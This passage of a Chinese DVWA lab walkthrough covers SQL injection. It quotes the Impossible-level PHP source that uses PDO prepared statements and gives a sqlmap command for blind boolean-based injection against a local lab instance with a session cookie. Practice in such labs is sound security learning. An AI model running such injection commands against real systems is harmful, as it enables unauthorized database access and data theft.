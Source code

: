 

这个界面有点熟悉，经过我的简单判断后，发现它竟然和Low级别一摸一样，就加了个花里胡哨的limit函数，一个注释符就解决了，这里就不加赘述了，直接看Low级别。

### Impossible

又到了这个不可能级别，我们来看看它的源码

```php
<?php
if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
    // Get input
    $id = $_GET[ 'id' ];
    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();
        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}
// Generate Anti-CSRF token
generateSessionToken();
?>
```

不可能级别永远的神，这里竟然使用了PDO技术，直接杜绝了SQL注入。没意思，溜之。

## SQL Injection (Blind) 

sql盲注，这边直接sqlmap跑或者python脚本

### Low

```python
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1*&Submit=Submit#" --cookie="你的cookie" --dbms=MySQL --technique=B --random-agent --flush-session -v 3
```

因为登录之后的页面存在sql注入，所以要指定cookie

### Medium

